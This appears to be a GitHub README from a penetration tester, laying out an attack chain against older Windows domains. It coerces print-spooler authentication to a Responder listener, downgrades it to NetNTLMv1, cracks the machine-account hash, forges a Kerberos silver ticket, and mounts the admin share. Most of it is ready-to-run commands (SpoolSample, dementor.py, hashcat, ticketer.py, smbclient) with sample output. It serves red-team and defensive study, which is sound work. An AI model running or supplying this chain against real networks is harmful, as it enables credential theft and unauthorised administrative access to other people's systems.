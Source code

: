 # SpoolSample -> NetNTLMv1 -> NTLM -> Silver Ticket

This technique has been alluded to by others, but I haven't seen anything cohesive out there.  Below we'll walk through the steps of obtaining NetNTLMv1 Challenge/Response authentication, cracking those to NTLM Hashes, and using that NTLM Hash to sign a Kerberos Silver ticket.

This will work on networks where "LAN Manager authentication level" is set to 2 or less. This is a fairly common scenario in older, larger Windows deployments.  It should not work on Windows 10 / Server 2016 or newer.

## There are 3 main steps

Obtain a NetNTLMv1 Response of a machine account vis @tifkin_'s (Lee Christensen's) SpoolSample

Crack that NetNTLMv1 Response back into an NTLM Hash using @0x31337's (David Hulton's) Rainbow Tables

Generate a Silver Ticket using the newly obtained NTLM Hash using @agsolino's (Albert Solino's) ticketer.py

## Obtain a NetNTLMv1 Response

### Identify potentially vulnerable machines

Using Powershell, get a list of Windows boxes. Servers are usually priority, so lets focus there:

    Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt

Using a slightly modified @mysmartlogin's (Vincent Le Toux's) SpoolerScanner, see if the Spooler Service is listening

    . .\Get-SpoolStatus.ps1
    ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}

You can also use rpcdump.py on Linux and look for the MS-RPRN Protocol

    rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN

### Start Responder with the --lm flag to force a LM downgrade

    ./Responder.py -I eth0 --lm

### Trigger an authentication

    SpoolSample.exe TARGET RESPONDERIP

or use 3xocyte's dementor.py if you're on Linux

    python dementor.py -d domain -u username -p password RESPONDERIP TARGET

Example Response:

```bash
[SMB] NTLMv1 Client   : 10.0.0.2
[SMB] NTLMv1 Username : DOMAIN\SERVER$
[SMB] NTLMv1 Hash     : SERVER$::DOMAIN:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972:1122334455667788
```

## Crack the NetNTLMv1 responses back into an NTLM Hash

You can use a set of Rainbow Tables to reverse the NTHASH to NTLM, or you can reverse it to its DES constituent components and crack it with hashcat.  

An 8x 1080 rig can brute force it in about 6 days, so consider Rainbow Tables.

### Rainbow Tables

1. For Rainbow Tables, there is a service hosted at [https://crack.sh/netntlm/](https://crack.sh/netntlm/) that will recover NTLM from NetNTLMv1 for free. This is provided by David Hulton of Toorcon.  We're working on a local copy of the rainbow tables and software that does not require and FPGA for lookups.

2. For crack.sh, the format is
     NTHASH:(response), so NTHASH:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972 from the example.

### Or Cracking Them with hashcat

1. @evil_mog's [ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) tool below can break them

```bash
python ntlmv1.py --nossp SERVER$::DOMAIN:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972:1122334455667788
```

This will return the below output with instructions:

```bash
Hashfield Split:
['SERVER$', '', 'DOMAIN', 'F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972', 'F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972', '1122334455667788']

Hostname: DOMAIN
Username: SERVER$
Challenge: 1122334455667788

LM Response: F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972
NT Response: F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972

CT1: F35A3FE17DCB31F9
CT2: BE8A8004B3F310C1
CT3: 50AFA36195554972

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin 50AFA36195554972 1122334455667788


To crack with hashcat create a file with the following contents:
F35A3FE17DCB31F9:1122334455667788
BE8A8004B3F310C1:1122334455667788

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

## Create a Kerberos Silver Ticket

You'll need to find a few pieces of information for this: SPN of the service you want to access, domain SID, domain user account SID and account name with local admin access, and a domain group that user is a member of if it's group-based local admin.

For the service, the most common will be cifs/ as it maps back to the HOST/ service

### Generate a Silver Ticket using Impacket's ticketer.py

```bash
./ticketer.py -nthash 09e55a127f3d4e4957c77de30000502a -domain-sid S-1-5-21-7375663-6890924511-1272660413 -domain DOMAIN.COM -spn cifs/SERVER.DOMAIN.COM -user-id 123456 -groups 4321 username
```

### Set the generated ccache file to the appropriate environment variable

```bash
export KRB5CCNAME=/root/Assessments/NTLMTest/USERNAME.ccache
```

### Use smbclient, wmiexec,  psexec, or any other impacket tool

```bash
smbclient -k //SERVER.DOMAIN.COM/c$ -d
```

## Work left to do

* Distribute 6TB of Rainbow Tables
  * Torrent w/@0x31337's Permission?
  * DEF CON Data Duplication Village?

* Modify @0x31337's [desrtop](https://github.com/h1kari/desrtop) to not require an FPGA
  * Outside my personal wheelhouse, but I'm grinding anyway

* Identify more ways to trigger a machine account authentication remotely
  * xp_dirtree is another path
  * Anyone willing to share others they may have found?
